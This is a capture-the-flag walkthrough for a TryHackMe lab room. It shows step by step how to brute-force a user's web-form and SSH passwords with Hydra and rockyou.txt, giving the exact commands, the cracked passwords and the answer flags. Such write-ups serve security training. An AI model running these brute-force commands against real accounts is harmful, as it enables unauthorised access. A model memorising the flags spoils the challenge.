


## Introduction

> You suspect Elf Molly is communicating with the Christmas Monster. Compromise her accounts by brute forcing them!  
Use Hydra to brute force Elf Molly's password. Use the rockyou.txt password list, which can be found here.

> [Supporting materials can be found here](./Supporting_Doc.html).

## Questions

> 1) Use Hydra to bruteforce molly's web password. What is flag 1?

td:lr Answer: **THM{2673a7dd116de68e85c48ec0b1f2612e}**

> 2) Use Hydra to bruteforce molly's SSH password. What is flag 2?

td:lr Answer: **THM{c8eeb0468febbadea859baeb33b2541b}**

===============================================================================

Deploy the machine and get ourselves VPN-ed into the THM network.  
once the machine is deployed, we can do a nmap scan for TCP ports under 1000:

`nmap <ip> -T4` --reveals open ports 22, 80  
start web browser - `<ip>`  

We find a login page, with a POST form.  
Use Hydra to bruteforce for the web password:  
`hydra -l molly -P rockyou.txt <ip> http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -f -V` - This will take some time: **joyness1994**  
Alternatively, we can solves the #2 first, which will give us ans to #1.

For #2, we will do hydra bruteforce on the ssh:  
`hydra -l molly -P rockyou.txt <ip> -t 4 ssh` -- cracks password: **butterfly**

Log in via the web login page with the credentials:  
> username: molly  
> password: butterfly

Will yield us the answer: **THM{2673a7dd116de68e85c48ec0b1f2612e}**

SSH into the machine:  
`ssh molly@<ip>` -- password: butterfly  
`cat flag2.txt`  
Will give us the answer: **THM{c8eeb0468febbadea859baeb33b2541b}**

To find the #1 web password via SSH:  
`cat /home/ubuntu/elf`  
`cat hydra-challenge`

  
Will yield us web password: joyness1994  
Will also yield us #1 answer.

